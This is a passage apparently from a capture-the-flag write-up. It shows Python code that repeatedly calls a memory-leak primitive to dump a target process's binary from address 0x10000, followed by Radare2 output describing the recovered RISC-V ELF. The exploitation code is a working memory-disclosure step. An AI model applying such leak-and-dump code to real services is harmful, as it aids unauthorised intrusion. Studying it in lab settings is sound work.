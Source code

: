 ```python
  context.log_level = 'error'
  r.close()
  context.log_level = old_level
  return a

def dump_binary(addr, length = 0x10000):
  current = addr
  dumped = ''
  while current < addr + length:
    s = leak(current)
    if s == None:
      dumped += '\x00'
      current += 1
      continue
    else:
      dumped += s
      current += len(s)
  return dumped

def save_file(filename, content):
  print 'generating %s.. [size: %d]' % (filename, len(content))
  f = open(filename, 'w')
  f.write(content)
  f.close()

binary = dump_binary(0x10000, 0x5dae0)
save_file('binary', binary)
```

If we leak the address `0x10000` we find the ELF magic bytes `\x7fELF` indicating the start of the mapped binary in the process memory.

We proceed to dump the header of the ELF file in order to see the binary size and other information. After leaking around 4KB of data, we can open it in [Radare2](https://github.com/radareorg/radare2) and parse the header with the `ia` command:

```text
$ r2 binary-0x10000-0x1b86a
 -- There's a branch for that.
[0x000101f8]> ia
arch     riscv
baddr    0x10000
binsz    383712
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  RISC V
nx       true
os       linux
pic      false
relocs   true
rpath    NONE
sanitiz  false
static   true
stripped false
subsys   linux
```